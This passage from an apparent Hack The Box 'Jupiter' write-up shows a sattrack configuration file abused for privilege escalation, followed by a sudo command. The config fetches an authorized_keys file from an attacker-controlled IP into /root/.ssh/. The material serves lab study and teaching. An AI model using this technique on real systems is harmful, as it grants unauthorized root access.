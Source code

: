 ```json
{
        "tleroot": "/root/.ssh/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "http://10.10.14.126/authorized_keys",
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
                "azel",
                "dis",
                "geo",
                "tab",
                "pos",
                "vel"
        ]
}
```

**5-** Run the `sattrack` binary with sudo: <br/>
```bash
jovian@jupiter:/tmp$ sudo /usr/local/bin/sattrack 
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-jupiter/2023-10-21 16_40_41-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Exploitation Process</i></center>
<br/>
